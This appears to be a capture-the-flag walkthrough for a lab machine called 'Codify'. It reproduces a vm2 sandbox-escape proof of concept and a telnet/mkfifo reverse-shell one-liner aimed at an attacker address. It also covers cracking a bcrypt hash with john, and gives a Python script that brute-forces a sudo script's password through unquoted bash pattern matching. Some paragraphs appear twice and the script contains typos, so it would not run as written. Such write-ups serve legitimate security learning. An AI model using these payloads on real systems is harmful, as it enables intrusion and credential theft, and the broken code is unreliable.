 # Codify

### Difficulty:

Easy

### Tools used:

- Nmap - network scan
- john -  password cracking

Always refer to the help section if you are unsure of how to use the tool or are unfamiliar with how a flag works.

## Walkthrough

I initiated with a simple nmap scan to see what we had. As is customary, I checked port 80 since it's typically where we need to start. I observed that the webpage had a field to test some codes, and I speculated that the vulnerability might be there. To proceed, I needed to identify what they used to determine if any vulnerabilities or security flaws existed. I began by attempting some broken codes to observe the responses and noted some errors. Despite trying some directory traversal, I didn't find anything particularly useful.

![Untitled](Images/Untitled.png)

I walked around through the pages ‘til I found something useful. When I reached the 'About us' page, I noticed that they use a library named 'vm2' for code virtualization.

![Untitled](Images/Untitled%201.png)

I opened [vm2 github page](https://github.com/patriksimek/vm2/) and went directly to issues and security tabs to see what could lead us to exploiting this. 

![Untitled](Images/Untitled%202.png)

Found [many security](https://github.com/patriksimek/vm2/security) flaws with sandbox escape title. So I thought it’s exactly what I’m looking for. Opened some of them and chose to try [this one](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

This is the code provided in the PoC:

```jsx
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

Then I changed the `execSync` parameter to get a reverse shell so I opened a netcat session and tried some types found at [revshell](https://www.revshells.com/). After a few tries getting error I got the shell with this one `TF=$(mktemp -u);mkfifo $TF && telnet <my_ip> <my_port> 0<$TF | bash 1>$TF`.

! Tried some commands to see a few things, everything working fine. So, I upgraded my terminal — I already show some methods in previous write-ups. 

Next, I modified the `execSync` parameter to obtain a reverse shell. I opened a netcat session and attempted various types found at [revshell](https://www.revshells.com/). After a few attempts resulting in errors, I successfully obtained a shell with the following command: `TF=$(mktemp -u);mkfifo $TF && telnet <my_ip> <my_port> 0<$TF | bash 1>$TF`.

Gotcha, I’m in! I tested a few commands to verify everything was working fine. Subsequently, I upgraded my terminal—I've already shared some methods in previous write-ups.

![Untitled](Images/Untitled%203.png)

As it was a webpage the first thing we can do is going to the `/var/wwww/` and see what we’ve got. We found the “code” page which was the one we exploited to get here and also a contacts page which had a `.db` file. So, we tried to read the data inside it using `sqlite`.

As it was a webpage, the first thing we did was navigate to `/var/www/` to explore what we've got. We found the “code” page, which was the one we exploited to get here, and also a “contacts” page containing a `.db` file. Therefore, we attempted to read the data inside it using `SQLite`.

![Untitled](Images/Untitled%204.png)

We found a user table with a user named “joshua”. At this point, we knew this machine had a local user with the same name — Running `cat /etc/passwd`. The “contacts”page resembled a ticket system, and within the database, we discovered the hash of a password associated with the user. Consequently, we needed to take some action with it.

![Untitled (3).png](Images/Untitled_(3).png)

Initially, we needed to determine the type of hash. After searching for “$2a$ hash”, I found out it was a bcrypt hash.

![Untitled](Images/Untitled%205.png)

So I tried to crack it with `john` and that was it, we got the password.

![Untitled](Images/Untitled%206.png)

As I know that the user is always dumb enough to use the same password everywhere I also tried to use it to login in the local user. And guess what?

It worked, so we’re able to get the user flag.

![Untitled](Images/Untitled%207.png)

As is my usual practice upon gaining access to a user, I used `sudo -l` to check what commands the user could run with root privileges. I discovered a script named “mysql-backup.sh”. To better understand its behavior, we attempted to run it.

![Untitled](Images/Untitled%208.png)

Unfortunately, we discovered that we couldn't run it at the moment. Now, we need to find a way to leverage this script to escalate privileges and gain root access.

![Untitled](Images/Untitled%209.png)

So I opened the script to see what it does. 

![Untitled](Images/Untitled%2010.png)

It doesn’t seems to do anything wrong. Here I tried to run some of those lines to see if it has anything interesting — I got stuck in this step for some hours, no way this is a easy machine from now on.

A friend of mine told me that the problem was in the line `if [[ $DB_PASS == $USER_PASS ]];`. Looks like if this comparison with double square brackets `[[` doesn’t have quotes in the right-hand side, bash does pattern matching instead of treating it as a string.  It means that if you put a `*` when you check the password it will always be True, because `*` matches any string.

So the correct way to do it would be `if [[ $DB_PASS == "$USER_PASS" ]];` . If you didn’t get how it works you can check out in [this wiki](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29). He told me that he had a script that could try to bruteforce the password due to this flaw. I didn’t wrote it, so I’ll not try to explain it but if you know basics about programming you can take a few minutes to understand how it work as homework, it’s pretty simple.

```bash
import string
import subproccess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char)
			password += char
			print(password)
			break
	else:
		is_password_found = True
```

Executing the script will output the results of the password brute force process, and the last output will reveal the found password. With this password in hands, we can attempt to escalate to root.

![Untitled](Images/Untitled%2011.png)

Then, you can just get your flag and go home.

![Untitled](Images/Untitled%2012.png)

**NOTE**: Before reaching the final step with the script, I attempted numerous strategies with the databases until I hit a point of frustration. Figuratively speaking, I felt like smashing my head against the wall. In times of struggle, I made the decision to seek help from someone with more experience in CTF.

**LESSON LEARNED**: Sometimes you encounter tasks that seem impossibly hard, and you might get stuck. There will be moments of self-blame for not finding the right path or overlooking hints, especially on a self-proclaimed **EASY** machine. However, it's crucial never to give up. Learning is challenging, and sometimes you may need a bit of guidance from others or search online if someone has shared a similar step. Strive to find the solution on your own, but when you're truly stuck, it's okay to seek help to save time and preserve your sanity.